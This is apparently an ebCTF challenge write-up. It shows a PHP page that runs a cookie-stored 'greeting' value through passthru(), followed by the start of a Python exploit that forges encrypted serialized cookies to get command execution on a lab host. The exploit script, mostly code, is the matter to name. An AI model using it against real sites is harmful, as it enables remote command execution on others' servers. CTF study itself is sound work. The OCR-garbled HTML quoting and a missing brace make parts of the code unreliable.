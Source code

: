 ```
if (@$_POST['name'] && is_string($_POST['name']) && strlen($_POST['name']) < 200) {
$settings = array(
'name' => $_POST['name'],
'greeting' => ('echo ' . escapeshellarg("Hello {$_POST['name']}!")),
);
setcookie('settings', base64_encode(@encrypt(serialize($settings))));
#setcookie('settings', serialize($settings));
}
$d = array();
if (@$settings['greeting']) {
passthru($settings['greeting']);
else {
echo "</pre>
<form action="\&quot;?\&quot;" method="\&quot;POST\&quot;">\n";
echo "
What is your name?

\n";
echo "<input type="\&quot;text\&quot;" name="\&quot;name\&quot;" />\n";
echo "<input type="\&quot;submit\&quot;" name="\&quot;submit\&quot;" value="\&quot;Submit\&quot;" />\n";
echo "</form>
<pre>
\n";
}
?>

```

**Exploit:**

```
#!/usr/bin/python
import requests
import sys
import urllib
from base64 import b64decode as dec
from base64 import b64encode as enc

url = 'http://192.168.184.133/ebctf/mine.php'

def Test(x):
    t = "echo 'Hello %s!'" % x
    s = 'a:2:{s:4:"name";s:%s:"%s";s:8:"greeting";s:%s:"%s";}%s' % (len(x),x,len(t),t, 'X'*40)
    for i in xrange(0,len(s),16):
        print s[i:i+16]
    print '\n'

def Pwn(s):
    global url
    s = urllib.quote_plus(enc(s))
    req = requests.get(url, cookies = {'settings' : s}).content
 #   if req.find('works') != -1:
    print req
  #  else:
   #     print '[-] FAIL'

def GetCookie(name):
    global url
    d = {
        'name':name,
        'submit':'Submit'
    }
```
